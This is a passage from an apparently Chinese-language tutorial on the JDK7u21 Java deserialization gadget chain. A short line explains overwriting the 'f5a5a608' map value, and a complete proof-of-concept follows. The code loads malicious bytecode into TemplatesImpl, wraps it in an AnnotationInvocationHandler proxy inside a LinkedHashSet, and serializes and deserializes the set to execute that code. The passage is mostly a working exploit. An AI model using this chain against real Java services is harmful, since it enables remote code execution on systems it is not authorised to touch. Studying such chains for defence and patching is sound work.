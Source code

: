 这里再覆盖掉`f5a5a608`的value，就是为了防止这里的2次`add`直接触发了漏洞。

然后序列化和反序列化即可。总的POC：

```java
package com.feng.jdk7u21;

import com.feng.util.SerializeUtil;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;

import javax.xml.transform.Templates;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

public class Jdk7u21 {
    public static void main(String[] args) throws Exception{
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");

        HashMap<String, Object> memberValues = new HashMap<String, Object>();
        memberValues.put("f5a5a608","feng");
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);


        Templates proxy = (Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );


        HashSet hashSet = new LinkedHashSet();
        hashSet.add(templates);
        hashSet.add(proxy);

        memberValues.put("f5a5a608",templates);
        byte[] bytes = SerializeUtil.serialize(hashSet);
        SerializeUtil.unserialize(bytes);
    }
}

```
